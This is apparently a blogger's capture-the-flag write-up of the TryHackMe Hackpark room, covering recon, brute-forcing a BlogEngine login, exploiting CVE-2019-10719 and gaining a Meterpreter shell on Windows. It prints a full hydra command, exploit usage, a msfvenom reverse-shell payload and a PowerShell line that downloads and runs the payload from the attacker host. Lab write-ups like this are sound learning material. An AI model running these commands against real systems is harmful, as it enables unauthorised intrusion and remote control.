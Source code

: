 #+TITLE: THM Hackpark
#+subtitle: Back Again
#+DATE: <2023-12-14 23:58>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

After taking a short break from CTFs, trying to keep my *tryhackme*
active streak ... active and losing quite a lot of time to finding and
fixing stuff (unfortunately not only in software), it is time for yet
another CTF. If I am not mistaken this is listed as an easy one, so
let's dive right in.

After using the good ol trick of modifying ~/etc/hosts~ and ~.bashrc~ for
easier handling of the remote machine's address:

* Recon

Our initial port scan only shows 2 open ports:
- [ ] 80: a web server
- [ ] 3389: Microsoft SChannel TLS (which the most prominent google
  results suggest may be an RDP entry point)
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oN nmap.initial $IP
#+end_src

After checking on the results that the full nmap scan returned (while
the bruteforce performed ahead was running), another open port was
revealed:
- [ ] 5985: wsman

** Visiting the WebServer
The website is powered by ~BlogEngine~, with numerous exploits readily
available for certain versions of it in exploitdb.

~robots.txt~ has some nice directories:
#+begin_example
User-agent: *
Disallow: /Account/*.*
Disallow: /search
Disallow: /search.aspx
Disallow: /error404.aspx
Disallow: /archive
Disallow: /archive.aspx
#+end_example

We have a contact form, so a XSS vulnerability could (maybe) be used
#+caption: Contact form
[[file:images/Recon/20231215_000936_screenshot.png]]

We also have a log in form:
#+caption: Log in form
[[file:images/Recon/20231215_001129_screenshot.png]]

The room's author (after dealing with the first "flag"), suggests
bruteforcing, so even though it is not my first option, this is what I
am looking at.

* Bruteforcing the website log in
After redirecting my web traffic to burp, so that I can better see how
my post requests are structured, it becomes apparrent that there is a
set of parameters (other than just username and password) I need to
set:

#+begin_example
__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
#+end_example

Adding to these the knowledge that the login post request had this
path ~/Account/login.aspx~ and failed login attempts had ~Login failed~:,
I structured the following hydra command:
 #+NAME: Hydra bruteforce http-post-form
 #+begin_src bash
 hydra -l admin -P /usr/share/wordlists/rockyou.txt hackpark.thm http-post-form "/Account/login.aspx:__VIEWSTATE=UnGFJ1jVBCvPEJB6QrtoKjw76I1fof5nb5%2Fmi95M3Edq9I%2FyqWIy2X2%2FvU7Ag6VZLp%2BYaqmf9yb4caypLwuCdNI3qKUNzyfXiyfNXj5EpuJ0v1Bx%2BnUjl%2FYd9ar9Tb8f3nFwQNVJA6mndKa3dsYvFzu1Bexhhxrqz1chJpeI3L3asy8n&__EVENTVALIDATION=EAe%2B9Chaa4KVFKEQmsprctI7ZIULtNtcD5gfs0zaO0eCbHDdIzjkiO%2BL%2F06nRadcC4cNF5UU3h7kFR%2BmxGwEyb8LufjLU1PJZ9wMrll%2FbVKtVQVrulxrJ3RbExWazKFa8xYTlGU2rrsOcv46foitShidjkUpCxSflIsV3F5p6KrgzjkM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" 
 #+end_src

After waiting for some time, it gave us the password.
#+begin_comment
1qaz2wsx
#+end_comment

* Exploiting BlogEngine
Seeing that BlogEngine had some exploits available, I immediately
searched for the currently running version, (available in the ~about~
pane). 

#+caption: Blog Engine Version
[[file:images/Exploiting_BlogEngine/20231215_003106_screenshot.png]]

Heading back to ~searchsploit~, we see that there are two readily
available python scripts for us to use (much better than the manual
alternative :P ):

#+begin_example
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Direct | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' D | aspx/webapps/47011.py
#+end_example

Now, after checking with (-x), we see that both of them are by the
same author and essentially have a similar behavior. I decided to go
with the first one.

#+begin_example
Exploit for CVE-2019-10719

CVE Identified by: Aaron Bishop
Exploit written by: Aaron Bishop

Upload and trigger a reverse shell

python exploit.py -t 192.168.10.9 -l 192.168.10.10:1337

Open a listener to capture the reverse shell - Metasploit or netcat

nc -nlvp 1337
#+end_example

This, taken from the exploit file (obviously), served as the basis for
the following command
 #+NAME: Exploiting BlogEngine - final part
#+begin_src bash
searchsploit -m 47010 # this might be just the most beautiful option in searchsploit, which I had *totally* missed for quite a long time
python 47010.py -t hackpark.thm -l 10.10.93.209:6969 -u admin -p 1qaz2wsx
#+end_src

This, strangely did not work, so before tinkering around any longer, I
ran the same command with 47011 (which required me to comment out just
one line in the python script as well). At this point, 47011 gave us a
nice reverse shell.


#+caption: Initial Foothold
[[file:images/Exploiting_BlogEngine/20231215_004446_screenshot.png]]

Seeing the privileges granted to our user, even the privilege
escalation path is already known, so after uploading winpeas or
getting a meterpreter shell, there is no need for manual priv esc.

* PrivEsc
This section could be called "getting the flags", because I do not
believe that I would go 

** Meterpreter 
First things first, generating and uploading the payload to the target
host:
#+NAME: Generating the payload and starting the web server
#+begin_example
root@ip-10-10-93-209:~# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.93.209 LPORT=6970
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
root@ip-10-10-93-209:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
#+end_example

Now, getting the file to the target system was *way* harder than it
needed to be. Initially, I thought that it would be just a bit more
difficult than it is on Linux. No matter what I tried, however, I
could not see that long awaited line in my python server, showing that
the file had been requested...

Sometime, I managed to get it to do the request, but a 'Bad Request
Syntax' prevented me from getting too excited - if you find yourself
in that position make sure that you are smarter than me: pressing
https instead of http by habit.

#+begin_example
powershell -c "Invoke-WebRequest -Uri 'http://10.10.93.209:8000/shell.exe' -OutFile 'c:\Windows\Temp\shell.exe'"
#+end_example

#+caption: Meterpreter
[[file:images/PrivEsc/20231215_012431_screenshot.png]]


(After completing this section I realized I did not include how the
handler was set up, but it is trivial, just ~use~ the
exploit/multi/handle - shown above - and complete the options)

After completing the tedious flags, just a simple ~cat~ gives us the
flag on ~jeff~'s and ~Administrator~'s desktops respectively.

Winpeas is not necessary since we have a full-fledged meterpreter
session. Maybe next time.


* Conclusion
I will focus on getting some more experience with windows, at least on
a theoretical level, and populating my notes better, because I think
it is quite sad to see how much more difficult exploiting windows feels.

